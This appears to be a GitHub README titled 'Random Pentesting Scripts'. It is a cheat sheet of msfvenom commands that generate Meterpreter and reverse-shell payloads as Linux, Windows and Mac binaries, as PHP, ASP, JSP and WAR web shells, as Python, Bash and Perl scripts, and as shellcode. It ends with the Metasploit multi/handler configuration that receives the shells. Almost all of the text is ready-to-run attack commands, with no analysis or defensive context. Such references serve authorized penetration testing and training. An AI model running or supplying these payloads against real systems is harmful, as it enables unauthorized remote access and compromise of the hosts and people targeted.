 # scripts
Random Pentesting Scripts

List payloads
=============
`msfvenom -l`

Binaries
========
Linux

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

Windows
=======
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

Mac
===
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

Web Payloads
============
PHP
---
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

ASP
---
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

JSP
---
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

WAR
---
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

Scripting Payloads
==================
Python
------
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

Bash
----
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

Perl
----
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

Shellcode
---------
For all shellcode see `msfvenom –help-formats` for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode
---------------------
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

Windows Based Shellcode
-----------------------
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

Mac Based Shellcode
-------------------
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

Handlers
--------
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

`use exploit/multi/handler`
`set PAYLOAD <Payload name>`
`set LHOST <LHOST value>`
`set LPORT <LPORT value>`
`set ExitOnSession false`
`exploit -j -z`

Once the required values are completed the following command will **execute your handler** – `msfconsole -L -r`
